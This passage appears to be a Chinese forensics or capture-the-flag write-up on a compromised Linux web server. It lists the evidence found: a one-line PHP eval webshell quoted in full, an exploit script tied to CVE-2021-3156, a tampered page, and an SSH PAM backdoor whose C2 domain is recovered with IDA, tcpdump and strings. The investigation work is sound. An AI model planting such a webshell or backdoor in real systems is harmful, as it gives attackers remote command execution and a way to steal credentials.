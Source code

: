     ```
4. webshell密码
`cat /var/www/html/upload/img/20121208/201212082353104864.php`
`<?php @eval($_POST["cmd"]);?>`
5. 提取工具路径
`/var/www/html/upload/exploit_defaults_mailer.py`
6. 黑客修改的网页
`grep -r github.com *`
`/var/www/html/template/default/index.html`
7. CVE
`cat /var/www/html/upload/exploit_defaults_mailer.py``
`cve-2021-3156`
8. ssh后门文件
`cat /etc/pam.d/sshd`
`发现so文件pam_login_linux.so`
9. ssh的C2地址
* ida分析
`用ida64打开pam_login_linux.so分析`
`在send_message()函数中发现向wnn0sum8iig0psw28vmlnonqbhh75w.oastify.com发送报文`
* 网路流量抓包
`在服务器上使用 tcpdump -i 网卡名称 监听网卡流量`
`使用ssh连接服务器触发pam_login_linux.so`
`下载tcpdump抓到的pcap文件用wireshark分析，筛选dns数据包可以发现域名解析中有wnn0sum8iig0psw28vmlnonqbhh75w.oastify.com`
* strings
  `使用strings提取so文件中的关键字符串也能看到一些线索，去掉每行最后的H再做调整`
    ```
    https://H
    wnn0sum8H
    iig0psw2H
    8vmlnonqH
    bhh75w.oH
    astify.cH
    @0om
    ```
